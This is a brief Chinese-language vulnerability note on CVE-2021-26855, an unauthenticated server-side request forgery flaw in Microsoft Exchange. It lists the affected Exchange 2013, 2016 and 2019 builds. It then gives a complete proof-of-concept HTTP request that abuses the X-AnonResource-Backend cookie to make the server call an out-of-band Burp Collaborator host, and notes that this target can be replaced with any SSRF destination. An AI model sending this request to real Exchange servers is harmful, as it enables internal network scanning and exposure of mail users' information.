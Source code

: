```yaml
---
title: "CVE-2021-26855"
author: ["4shen0ne"]
tags: ["exchange"]
draft: false
---
```


Exchange SSRF 漏洞，攻击者可直接构造恶意请求，以 Exchange server 的身份发起任意
HTTP 请求，扫描内网，并且可获取 Exchange 用户信息。该漏洞利用无需身份认证。


## 影响版本 {#影响版本}

Exchange 2013 Versions &lt; 15.00.1497.012,

Exchange 2016 CU18 &lt; 15.01.2106.013,

Exchange 2016 CU19 &lt; 15.01.2176.009,

Exchange 2019 CU7 &lt; 15.02.0721.013,

Exchange 2019 CU8 &lt; 15.02.0792.010。


## poc {#poc}

```nil
GET /owa/auth/x.js HTTP/1.1
Host: IP
Connection: close
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://IP/owa/auth/logon.aspx?url=https%3a%2f%2PIp%2fowa%2f&reason=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: X-AnonResource=true; X-AnonResource-Backend=oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
```

x.js 可以随意构造，在 cookie 的 X-AnonResource-Backend 参数中设置 ssrf 目标，比
如上面的 oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net
